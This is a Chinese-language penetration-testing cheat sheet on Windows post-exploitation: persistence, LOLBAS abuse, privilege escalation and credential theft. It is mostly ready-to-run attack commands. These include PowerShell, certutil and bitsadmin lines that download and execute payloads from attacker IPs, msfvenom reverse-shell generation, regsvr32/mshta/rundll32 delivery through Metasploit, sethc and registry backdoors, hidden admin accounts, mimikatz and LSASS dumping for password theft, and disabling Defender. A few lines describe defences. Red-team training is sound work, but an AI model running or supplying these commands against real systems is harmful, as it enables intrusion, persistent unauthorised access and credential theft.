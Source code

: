 持久化 - Windows
========================================

开启远程登录
----------------------------------------
- 前提：执行系统命令。
- 添加用户
	+ net user命令
	+ 其它
		- 当主机含有杀毒软件时，则常规命令会被拦截，可将以下程序上传到目标机器，然后执行
		- ``https://github.com/RuanLang0777/CreateUser``
- 查看RDP端口
	+ ``REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber``
- 命令行开启
	+ windows server 2003
		::
		
			开启1：
			REG ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
			关闭：
			REG ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
			开启2：
			wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
			REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
			REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
	+ windows server 2008
		::
		
			REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
	+ 注：0x00000d3d即3389。

隐藏文件
----------------------------------------
- 创建系统隐藏文件
    - ``attrib +s +a +r +h filename`` / ``attrib +s +h filename``
- 利用NTFS ADS (Alternate　Data　Streams) 创建隐藏文件
- 利用Windows保留字
    - ``aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9``

LOLBAS
----------------------------------------

定义
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种 **白利用** 方式。
+ 这些程序一般有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于 **内网渗透** 中。
+ 这些程序可能会被用于： **下载安全恶意程序** 、 **执行恶意代码** 、 **绕过UAC** 、 **绕过程序控制** 等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 下载类
	- ``powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://45.32.1.7:80/download/file.exe','d:\system.exe')``
	- ``powershell (new-object Net.WebClient).DownloadFile('http://192.168.203.140/a.ps1','E:\phpstudy_pro\WWW\a.ps1')``
	- ``bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.203.140/b.ps1" "E:\\phpstudy_pro\\WWW\\b.ps1"``
	- ``certutil -urlcache -split -f http://192.168.203.140/b.exe``
	- cscript.exe
		+ 第一种
			::
			
				echo Set Post = CreateObject("Msxml2.XMLHTTP") >>download.vbs
				echo Set Shell = CreateObject("Wscript.Shell") >>download.vbs
				echo Post.Open "GET","http://192.168.203.140/a.ps1",0 >>download.vbs
				echo Post.Send() >>download.vbs
				echo Set aGet = CreateObject("ADODB.Stream") >>download.vbs
				echo aGet.Mode = 3 >>download.vbs
				echo aGet.Type = 1 >>download.vbs
				echo aGet.Open() >>download.vbs
				echo aGet.Write(Post.responseBody) >>download.vbs
				echo aGet.SaveToFile "D:/a.ps1",2 >>download.vbs
		+ 第二种：``echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2  >> downfile.vbs``
		+ 下载文件：``cscript downfile.vbs http://192.168.203.140/a.ps1 D:\\tomcat8.5\\webapps\\x.ps1``
+ 程序编译类
	- csc.exe
		+ 在C:\Windows\Microsoft.NET\Framework64\v4.0.30319目录中,注意64位和32位
		+ 编译C#代码：``csc.exe /out:C:\1.exe C:\1.cs``
	- msbuild.exe
		+ 在C:\Windows\Microsoft.NET\Framework64\v4.0.30319目录中，注意64位和32位
		+ 地址：``https://github.com/3gstudent/msbuild-inline-task``
		+ 使用说明：``https://3gstudent.github.io/Use-MSBuild-To-Do-More``
		+ 构建Msfvenom生成CSharp文件
			::
			
				生成代码：
				msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f csharp
				下载：https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml
				替换其中的buf为shellcode，修改名字为file.csproj
				编译：MSBuild.exe  file.csproj
		+ 执行PE文件
		+ 执行powershell命令
				
+ 执行加载类
	- Invoke-ReflectivePEInjection.old.ps1地址: ``https://github.com/clymb3r/PowerShell``
	- ``powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.11:8000/Invoke-ReflectivePEInjection.old.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.100.11:8000/shell.dll"``
	- ``powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.11:8000/Invoke-ReflectivePEInjection.old.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.100.11:8000/shell.exe``
	- ``powershell Start-Process d:\yayou\Web\RYFront\system.exe``
	- cdb.exe
		+ windbg自带命令行调试工具，安装目录中。
		+ 加载shellcode
			::
			
				生成shellcode
				msfvenom -p windows/x64/shell_reverse_tcp lhost=xxx.xxx.xxx.xxx lport=3333 -f python
				转换shellcode为wds文件
				使用工具：https://github.com/Ryze-T/cdb-wds
				python3 shellcode2wds.py（脚本中buf内容改为shellcode）生成shell.wds
				目标机器执行：cdb.exe -pd -cf shell.wds -o notepad.exe
		+ 加载dll
			::
			
				cdb附加到指定进程：cdb.exe -pd -pn notepad.exe
				加载dll：.load C:\artifact.dll
		+ 执行exe: ``cdb.exe -pd -pn notepad.exe -a "C:\artifact.exe"`` , ``g``
		+ 执行shell：``cdb.exe -pd -pn notepad.exe`` , ``.shell cmd.exe /c whoami``
	- cmstp.exe
		+ windows自带程序，可以从远程服务器加载和执行DLL或COM脚本（SCT）。
		+ 执行本地dll文件：
			::
			
				cmstp.inf文件内容如下：
				[version]
				Signature=$chicago$
				AdvancedINF=2.5
				[DefaultInstall_SingleUser]
				RegisterOCXs=RegisterOCXSection
				[RegisterOCXSection]
				C:\test.dll
				[Strings]
				AppAct = "SOFTWAREMicrosoftConnection Manager"
				ServiceName="Pentestlab"
				ShortSvcName="Pentestlab"
				
				执行：cmstp.exe /s /ns cmstp.inf
		+ 直接执行程序：
			::
			
				[version]
				Signature=$chicago$
				AdvancedINF=2.5
				[DefaultInstall_SingleUser]
				RegisterOCXs=RegisterOCXSection
				[RegisterOCXSection]
				C:\Windows\System32\calc.exe
				[Strings]
				AppAct = "SOFTWARE\Microsoft\Connection Manager"
				ServiceName="Pentestlab"
				ShortSvcName="Pentestlab"
				
				执行：cmstp.exe /ns /s cmstp.inf
		+ 执行sct程序：
			::
			
				sct生成：暂无
				cmstp.inf文件内容如下：
				[version]
				Signature=$chicago$
				AdvancedINF=2.5
				[DefaultInstall_SingleUser]
				UnRegisterOCXs=UnRegisterOCXSection
				[UnRegisterOCXSection]
				%11%scrobj.dll,NI,http://10.0.0.2/tmp/powersct.sct
				[Strings]
				AppAct = "SOFTWAREMicrosoftConnection Manager"
				ServiceName="Pentestlab"
				ShortSvcName="Pentestlab"
				
				执行：cmstp.exe /ns /s cmstp.inf
	- mshta.exe
		::
		
			use exploit/windows/misc/hta_server
			set srvhost 192.168.0.104
			exploit -j
			
			mshta.exe http://192.168.0.104:8080/SxUxU5AvkuW2LCX.hta
	- regsvr32.exe
		::
		
			use exploit/multi/script/web_delivery
			set srvhost 192.168.1.121
			set target 3
			set payload windows/x64/meterpreter/reverse_tcp
			set lhost 192.168.1.121
			exploit –j
			
			regsvr32 /s /n /u /i:http://192.168.1.121:8080/yvj3GKJwvde.sct scrobj.dll
	- rundll32.exe
		::
		
			use exploit/windows/smb/smb_delivery
			set srvhost 192.168.1.121
			exploit -j
			
			rundll32.exe \\192.168.1.121\qFMnFO\test.dll,0
+ 其它
	- expand.exe
		+ 展开一个或多个压缩文件
	- mofcomp.exe
		+ 编译mof文件，并添加到wmi
	- installutil.exe
		::
		
			c#代码：https://github.com/Cn33liz/SharpCat/blob/master/SharpCat.cs
			修改Main函数其中的回连地址指向攻击机IP和端口
			攻击机开启监听：nc -l -p 5555
			编译exe：C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /out:"C:\Utils\SharpCat.exe" /platform:anycpu "C:\Utils\SharpCat.cs"
			运行：C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SharpCat.exe

后门
----------------------------------------

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

映像劫持
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在高版本的Windows中，替换程序是受到系统保护的，需要使用其他的技巧来实现替换。

具体操作为在注册表的 ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option`` 下添加项 ``sethc.exe`` ，然后在 ``sethc.exe`` 这个项中添加 ``debugger`` 键，键值为恶意程序的路径。

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows下有 ``schtasks`` 和 ``at`` 两种计划任务机制。 其中 ``at`` 在较高版本的Windows中已经弃用。

::

    win7及以下版本系统：at命令默认以system权限运行，使用at命令以交互方式运行cmd.exe
    at 14:27 /interactive cmd.exe
    
    win7及以上版本系统：使用创建名称为restart的计划任务，命令行运行notepad.exe
    SCHTASKS /Create /SC once /TN restart /TR "notepad.exe" /ST 14:27 /RL HIGHEST
    注：提示未正确加载资源的话，使用chcp 437 命令切换到英文环境即可。
        /create 指的是创建计划任务
        /s 指定远程计算机
        /tn 指定计划任务的名称
        /ru　指定运行该批处理的账号，如果去掉该参数则默认为当前账户运行，会提示输入密码。(一个计划任务所用的账号如果密码变动后该批处理就不再会运行成功)
        /rp 指定账号的密码
        /tr 指定程序所在路径，这里为指定要执行的批处理存放路径。
        /sc 为指定运行的周期
        /d 为日期，一周中的一天或多天 (请使用以下缩写形式：Mon、Tue、Wed、Thu、Fri、Sat、Sun) 或 (月中的一天或多天使用数字 1 到 31)
        /st 为运行时间
    注：经过测试，即便使用/RL HIGHEST参数，也无法使notepad.exe以system权限运行。

登录脚本
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以在用户登录前执行脚本，使用 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 设置。

屏幕保护程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以自定义屏幕保护程序，使用 ``HKEY_CURRENT_USER\Control Panel\Desktop`` 设置。

隐藏用户
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以使用在用户名后加入 ``$`` 来创建匿名用户，这种方式创建的用户只能通过注册表查看。
::
	
	添加用户：
	net user admin123 123456 /add
	加入管理员组：
	net localgroup administrators admin123 /add
	加入远程登录组：
	net localgroup "Remote Desktop Users" admin123 /add

CLR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CLR (Common Language Runtime Compilation) 公共语言运行时，是微软为.NET产品构建的运行环境，可以粗略地理解为.NET虚拟机。

.NET程序的运行离不开CLR，因此可以通过劫持CLR的方式实现后门。

UAC
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UAC (User Account Control) 是Windows的一个安全机制，当一些敏感操作发生时，会跳出提示显式要求系统权限。

当用户登陆Windows时，每个用户都会被授予一个access token，这个token中有security identifier (SID) 的信息，决定了用户的权限。

会触发UAC的操作
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 以管理员权限启动应用
- 修改系统、UAC设置
- 修改没有权限的文件或者目录（ %SystemRoot% / %ProgramFiles% 等 ） 
- 修改ACL (access control list)
- 安装驱动
- 增删账户，修改账户类型，激活来宾账户

自启动
----------------------------------------
通过在注册表中写入相应的键值可以实现程序的开机自启动，主要是 ``Run`` 和 ``RunOnce`` ，其中RunOnce和Run区别在于RunOnce的键值只作用一次，执行完毕后会自动删除。

权限提升
----------------------------------------
权限提升有多重方式，有利用二进制漏洞、逻辑漏洞等技巧。利用二进制漏洞获取权限的方式是利用运行在内核态中的漏洞来执行代码。比如内核、驱动中的UAF或者其他类似的漏洞，以获得较高的权限。

逻辑漏洞主要是利用系统的一些逻辑存在问题的机制，比如有些文件夹用户可以写入，但是会以管理员权限启动。

提权辅助工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 查看系统补丁信息
	- ``systeminfo``
	- ``Wmic qfe get Caption,Description,HotFixID,InstalledOn``
	- MSF模块：``post/windows/gather/enum_patches``
+ 查询系统未修复可提权补丁
	- ``https://i.hacking8.com/tiquan/``
+ 提权检测
	- MSF后模块
		+ ``post/multi/recon/local_exploit_suggester``
	- windows exploit suggester
		+ 项目地址：``https://github.com/AonCyberLabs/Windows-Exploit-Suggester``
		+ 目标机器运行，需要python环境
	- sherlock.ps1
		+ 项目地址：``https://github.com/rasta-mouse/Sherlock``
		+ 本地导入
			::
				
				下载Sherlock.ps1放在C盘根目录，使用powershell执行下面命令
				Import-Module C:\Sherlock.ps1
				提示没有权限，请输入：set-ExecutionPolicy RemoteSigned
				Find-AllVulns
		+ 远程下载执行
			- ``powershell -Version 2  -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://118.195.199.66:8088/Sherlock.ps1');Find-AllVulns``
	- PowerUp.ps1
		+ 项目地址：``https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1``
		+ 本地导入
			::
				
				下载PowerUp.ps1放在C盘根目录，使用powershell执行下面命令
				Import-Module C:\PowerUp.ps1
				Invoke-AllChecks
		+ 远程下载执行
			- ``powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://118.195.199.66:8088/PowerUp.ps1');Invoke-AllChecks``
	- PrivescCheck.ps1
		+ 项目地址：``https://github.com/itm4n/PrivescCheck``
	- winPEAS
		+ 项目地址：``https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS``
		+ 包含exe，bat，ps1方式。
		+ exe需要.net 4.0.30319
	- BeRoot
		+ 项目地址：``https://github.com/AlessandroZ/BeRoot``
		+ exe文件
	- Powerless
		+ 项目地址：``https://github.com/gladiatx0r/Powerless``
		+ bat文件
	- systeminfo离线检测
		+ 项目地址：``https://github.com/bitsadmin/wesng``
		+ 使用：``python wes.py systeminfo.txt``
	- GhostPack 
		+ 地址：``https://github.com/GhostPack``
		+ 预编译地址：``https://github.com/r3motecontrol/Ghostpack-CompiledBinaries``
		+ 包含工具
			- Rubeus：Kerberos 协议交互工具。
			- Seatbelt：主机安全检查。
				::
				
					Seatbelt.exe -group=all -full
					Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
					Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
			- SharpUp：识别本地权限提升路径。
			- SafetyKatz：类似 Mimikatz。
+ 提权工具
	- NSudoLG
		+ 项目地址：``https://github.com/M2TeamArchived/NSudo``
		+ 提权：``NSudoLG.exe -U:T -P:E cmd /C "C:\test.exe" & exit"``
	- AdvancedRun
		+ 项目地址：``https://www.nirsoft.net/utils/advanced_run.html``
		+ 提权TrustedInstaller
			- ``AdvancedRun.exe /Clear /EXEFilename "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /StartDirectory "C:\" /CommandLine "" /RunAs 8 /Run``
			- ``AdvancedRun.exe /Clear /EXEFilename "C:\Windows\System32\cmd.exe" /StartDirectory "C:\" /CommandLine "" /RunAs 8 /Run``
		+ 提权SYSTEM
			- ``AdvancedRun.exe /Clear /EXEFilename "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /StartDirectory "C:\" /CommandLine "" /RunAs 4 /Run``
			- ``AdvancedRun.exe /Clear /EXEFilename "C:\Windows\System32\cmd.exe" /StartDirectory "C:\" /CommandLine "" /RunAs 4 /Run``
	- psexec提权
		+ sysinternals工具
		+ 原理：利用Windows 远程过程调用（RPC）机制来在目标计算机上创建了一个新的进程，并以管理员权限运行该进程。这个新进程就相当于是已经进行了提权操作的进程。
		+ 命令：``psexec.exe -accepteula -s -i -d cmd.exe``

利用计划任务升级system
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ schtasks方式
+ at方式
+ 交互式服务
	::

		适用环境：win7，xp
		以管理员权限运行cmd，输入并运行 “sc Create SuperCMD binPath= "cmd /K start" type= own type= interact” 安装名为SuperCMD的交互式服务。
		cmd运行“net start SuperCMD”命令，启动服务。
		弹出“交互式服务检测”对话框，点击查看消息，进入的cmd窗口就是system权限了。
		关闭和卸载：
		net stop SuperCMD
		sc delete SuperCMD

Unquoted Service Paths
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 该漏洞与文件名中包含空格的可执行文件的路径相关，文件名未包含在引号标记（""）中。
+ 如：C:\Program Files\something\legit.exe, Windows服务首先会加载以下程序文件:
	- ``C:\Program.exe``
	- ``C:\Program Files.exe``
+ 命令
	- ``wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """``
	- ``wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """``



凭证窃取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 综合工具
	+ LaZagne
		- 一键抓取目标机器上存储的所有明文密码。
		- 项目地址：``https://github.com/AlessandroZ/LaZagne``
- 浏览器
	+ HackBrowserData
		- 一款可全平台运行的浏览器数据导出解密工具。
		- 项目地址：``https://github.com/moonD4rk/HackBrowserData``
- 向日葵
	+ Sunflower_get_Password
		- 一款针对向日葵的识别码和验证码提取工具
		- 项目地址：``https://github.com/wafinfo/Sunflower_get_Password``
- Windows本地密码散列导出工具
	+ mimikatz
		- https://github.com/gentilkiwi/mimikatz/
		- 输出日志： ``log``
		- 权限提升： ``privilege::debug``
		- 命令方式：``mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam"``
		- sekurlsa模块
			::
			
				
				抓取明文密码： sekurlsa::logonpasswords
				sekurlsa::logonpasswords

				抓取用户NTLM哈希
				sekurlsa::msv

				加载dmp文件，并导出其中的明文密码
				sekurlsa::minidump lsass.dmp
				sekurlsa::logonpasswords full

				导出lsass.exe进程中所有的票据
				sekurlsa::tickets /export
				
				获取aeskey
				sekurlsa::ekeys
		- kerberos模块
			::
			
				列出系统中的票据
				kerberos::list
				kerberos::tgt

				清除系统中的票据
				kerberos::purge

				导入票据到系统中
				kerberos::ptc 票据路径
		- lsadump模块
			::
			
				在域控上执行)查看域kevin.com内指定用户root的详细信息，包括NTLM哈希等
				lsadump::dcsync /domain:kevin.com /user:root

				(在域控上执行)读取所有域用户的哈希
				lsadump::lsa /patch

				从sam.hive和system.hive文件中获得NTLM Hash
				lsadump::sam /sam:sam.hive /system:system.hive

				从本地SAM文件中读取密码哈希
				token::elevate
				lsadump::sam
		- wdigest
			::
			
				WDigest协议是在WindowsXP中被引入的,旨在与HTTP协议一起用于身份认证。
				默认情况下,Microsoft在多个版本的Windows(Windows XP-Windows 8.0和Windows Server 2003-Windows Server 2012)中启用了此协议,
				这意味着纯文本密码存储在LSASS(本地安全授权子系统服务)进程中。 Mimikatz可以与LSASS交互,允许攻击者通过以下命令检索这些凭据。
				mimikatz #privilege::debug
				mimikatz #sekurlsa::wdigest
				在windows2012系统以及以上的系统之后这个默认是关闭的如果在 win2008 之前的系统上打了 KB2871997 补丁，那么就可以去启用或者禁用 
				WDigest。Windows Server2012及以上版本默认关闭Wdigest，使攻击者无法从内存中获取明文密码。Windows Server2012以下版本，如果安装
				了KB2871997补丁，攻击者同样无法获取明文密码。配置如下键值：
				HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest
				UseLogonCredential 值设置为 0, WDigest 不把凭证缓存在内存；UseLogonCredential 值设置为 1, WDigest 就把凭证缓存在内存。
				使用powershell进行更改
				开启Wdigest Auth
				Set-ItemProperty -Path HKLM:\SYSTEM\CurrentCzontrolSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
				关闭Wdigest Auth
				Set-ItemProperty -Path HKLM:\SYSTEM\CurrentCzontrolSet\Control\SecurityProvid
		- LSA保护
			::
			
				如何防止mimikatz获取一些加密的密文进行PTH攻击呢！其实微软推出的补丁KB2871997是专门针对PTH攻击的补丁，但是如果PID为500的话，
				还是可以进行PTH攻击的！本地安全权限服务(LSASS)验证用户是否进行本地和远程登录,并实施本地安全策略。 Windows 8.1及更高版本的
				系统中,Microsoft为LSA提供了额外的保护,以防止不受信任的进程读取内存或代码注入。Windows 8.1之前的系统,攻击者可以执行Mimikatz
				命令来与LSA交互并检索存储在LSA内存中的明文密码。

				这条命令修改键的值为1，即使获取了debug权限吗，也不能直接获取明文密码和hash
				reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL /t REG_DWORD /d 1 /f
	+ mimikatz.ps1
		- 下载地址：``https://github.com/OmarFawaz/Invoke-Mimikatz.ps1-Version-2.1.1``
		- 执行命令：Invoke-Mimikatz
	+ Pwdump7
		- 下载地址：``http://www.tarasco.org/security/pwdump_7/pwdump7.zip``
	+ QuarkPwDump 
		- 下载地址：``https://raw.githubusercontent.com/tuthimi/quarkspwdump/master/Release/QuarksPwDump.exe``
		- 使用：``QuarkPwDump.exe --dump-hash-local``
	+ ProcDump
		- https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
		- 管理员权限dump LSASS进程： ``procdump.exe -accepteula -ma lsass.exe 1.dmp``
		- mimikatz读取密码： ``mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit``
	+ msf中kiwi模块
		- 加载： ``load kiwi``
		- 帮助： ``help kiwi``
		- 主要命令
			::
			
				creds_all：列举所有凭据
				creds_kerberos：列举所有kerberos凭据
				creds_msv：列举所有msv凭据
				creds_ssp：列举所有ssp凭据
				creds_tspkg：列举所有tspkg凭据
				creds_wdigest：列举所有wdigest凭据
				dcsync：通过DCSync检索用户帐户信息
				dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
				golden_ticket_create：创建黄金票据
				kerberos_ticket_list：列举kerberos票据
				kerberos_ticket_purge：清除kerberos票据
				kerberos_ticket_use：使用kerberos票据
				kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
				lsa_dump_sam：dump出lsa的SAM
				lsa_dump_secrets：dump出lsa的密文
				password_change：修改密码
				wifi_list：列出当前用户的wifi配置文件
				wifi_list_shared：列出共享wifi配置文件/编码
		- kiwi_cmd
			::
			
				kiwi_cmd可以使用mimikatz中的所有功能，命令需要接上mimikatz的命令
				kikiwi_cmd sekurlsa::logonpasswords
- Windows本地密码破解工具
	+ L0phtCrack
	+ SAMInside
	+ Ophcrack

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 组策略首选项漏洞
- DLL劫持
- 替换系统工具，实现后门
- 关闭defender
    - ``Set-MpPreference -disablerealtimeMonitoring $true``
